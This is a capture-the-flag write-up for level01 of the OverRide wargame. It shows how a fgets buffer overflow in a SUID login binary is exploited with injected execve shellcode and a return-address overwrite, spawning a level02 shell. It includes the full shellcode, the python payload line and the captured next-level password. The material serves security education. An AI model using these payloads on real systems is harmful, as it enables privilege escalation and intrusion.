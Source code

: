# Level01 Exploit

## 1. Initial Analysis

List the files in the directory:

```bash
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

The `level01` binary has the SUID bit set, which means it will run with the permissions of the owner of the file, in this case `level02`.

## 2. Program Execution

Observe the program behavior:

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$ 
```

The program prompts for a username. We can see that the username `admin` is incorrect.

## 3. Disassembling `main` Function

Use GDB to disassemble the `main` function:

```bash
level01@OverRide:~$ gdb level01
(gdb) disass main
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool. You can find the converted code in [source.c](source.c).

We also use Ghidra to decompile the binary. You can find the decompiled code by Ghidra in [ghidra_level01.c](Ressources/ghidra_level01.c).

## 4. Program Analysis

With the decomplied code, we can see that the program declare a buffer of 100 bytes. The username is read with `fgets` and inserted into the `a_user_name` global variable.
```c
fgets(a_user_name, 0x100, stdin);
```

With `Ghidra`, we can see that the first 7 characters of `a_user_name` are compared with `dat_wil`.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
```

If the comparison is successful, the program will prompt for a password.

The password is read with `fgets` and inserted into a buffer declared previously. The buffer has a size of 64 bytes. But `fgets` reads `0x64` bytes, which is 100 bytes.
```c
fgets(buffer, 0x64, stdin);
```

It's a buffer overflow vulnerability.

## 5. Exploitation

### 5.1. Find the Offset

We can exploit this vulnerability by overflowing the buffer with a password bigger than 64 bytes.
We generate a pattern with [Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

We can then use the pattern to find the offset where the return address is overwritten.
```bash
level01@OverRide:~$ gdb ./level01
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers eip
eip            0x37634136	0x37634136
```
The offset is 80 bytes.

### 5.2. Find the address of the `a_user_name` global variable

We can find the address of the `a_user_name` global variable with GDB.

```bash
(gdb) break main
Breakpoint 1 at 0x80484d5
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) info address a_user_name
Symbol "a_user_name" is at 0x804a040 in a file compiled without debugging.
```
The address of the `a_user_name` global variable is `0x804a040`.

### 5.3 Execute the Exploit

We will inject shellcode into the buffer to spawn a shell. We will also overwrite the return address with the address of the `a_user_name` global variable, which contains the shellcode.
The shellcode is:
```bash
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

So for the username we insert `dat_wil` + the shellcode.
For the password we insert the padding + the address of the `a_user_name` global variable.
The address of the `a_user_name` global variable is `0x804a040`, but the shellcode begins after `dat_wil`, so we need to add 7 bytes to the address. The address to insert is `0x804a047` -> `\x47\xa0\x04\x08`.

We will use `python -c "print` to prepqre the input. `fgets` read the stdin until a newline character, so we need to add a newline character between the username and the password.

```bash
python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac' + '\x47\xa0\x04\x08'" > /tmp/test
```

We can then run the exploit:
```bash
level01@OverRide:~$ cat /tmp/test - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Congratulations! You have successfully exploited the `level01` binary and found the password for `level02`.

```bash
level01@OverRide:~$ su level02
Password: 
```